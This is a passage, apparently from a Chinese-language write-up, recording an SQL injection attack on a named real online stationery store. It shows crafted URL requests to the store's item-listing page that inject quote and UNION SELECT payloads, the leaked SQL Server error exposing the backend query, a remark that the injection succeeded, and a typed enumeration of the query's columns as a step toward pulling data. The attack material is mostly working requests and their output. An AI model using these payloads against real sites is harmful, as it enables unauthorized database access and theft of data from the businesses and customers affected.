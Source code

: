 4. `mItemList.asp?ClsId=&ClsUpId=456456%27--&Name=123123&PriceMax=&PriceMin=0&RoomId=&orderby=2&page=1&sty`

```json
{
  "rs": [],
  "PageCount": 1,
  "RecCount": 0,
  "HTTP_ImageMainPath": "https:\/\/www.xl-stationer.com.tw\/P803_IMG\/_004\/",
  "PageSize": 20,
  "RoomId": "",
  "RoomName": null,
  "ClsUpId": "456456'--",
  "ClsUpName": null,
  "ClsId": "",
  "ClsName": null,
  "orderby": "2"
}
```

5. `mItemList.asp?ClsId=&ClsUpId=456456%27%20UNION%20SELECT%20NULL--&Name=123123&PriceMax=&PriceMin=0&RoomId=&orderby=2&page=1&sty=`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]使用 UNION、INTERSECT 或 EXCEPT 運算子結合的所有查詢，其目標清單中的運算式數量必須相等。<hr>exec ssp_search_page 'SELECT top 100 percent t.OrderId,t.ScdId,t.PrvId,t.OnlineRoomId,t.ClsUpId,t.ClsId,t.ROWID,t.Id,t.Name,t.urlName,t.ImgFile,t.ClsName,t.SizeName,t.SpcPrice,t.AdvPrice,t.Qty,t.IconTopPic,t.IconTitle,  ROUND((Case I.swDicPrice WHEN 1 THEN I.Price ELSE ( Case  WHEN I.PriceF <= 15 THEN  CEILING((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) ELSE ((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) END )  END ) ,0) As MemberPrice, ROUND( I.PriceF , 0) As FixedPrice,  ROUND( I.Price , 0) As SalePrice,  ROUND(I.Price,0) As GroupPrice,  ROW_NUMBER() OVER (ORDER BY ROWID) as _RowId from TmpProductItem as t with(nolock) , item as i   where i.id=T.id   and t.ClsUpId=''456456''UNION SELECT NULL--''  AND ((Replace(t.Name+isnull(t.Keywords,''''),'' '','''') like ''%123123%'')                              or t.Id=''123123'' OR t.ScdID=''123123'' OR t.PrvId=''123123'' ) ORDER BY ISNull(t.Qty, 0) DESC, t.Id ','1','20'
```

UNION SELECT 有成功注入，直接數一下有幾個欄位

```sql
SELECT top 100 percent
t.OrderId, -- 整數
t.ScdId, -- 整數
t.PrvId, -- 整數
t.OnlineRoomId, -- 整數
t.ClsUpId, -- 整數
t.ClsId, -- 整數
t.ROWID, -- 整數
t.Id, -- 整數
t.Name, -- 字串
t.urlName, -- 字串
t.ImgFile, -- 字串
t.ClsName, -- 字串
t.SizeName, -- 字串
t.SpcPrice, -- 整數
t.AdvPrice, -- 整數
t.Qty, -- 整數
t.IconTopPic, -- 字串
t.IconTitle, -- 字串
ROUND((Case I.swDicPrice WHEN 1 THEN I.Price ELSE ( Case  WHEN I.PriceF <= 15 THEN  CEILING((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) ELSE ((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) END )  END ) ,0) As MemberPrice, -- 整數
ROUND( I.PriceF , 0) As FixedPrice, -- 整數
ROUND( I.Price , 0) As SalePrice, -- 整數
ROUND(I.Price,0) As GroupPrice, -- 整數
ROW_NUMBER() OVER (ORDER BY ROWID) as _RowId -- 整數
```
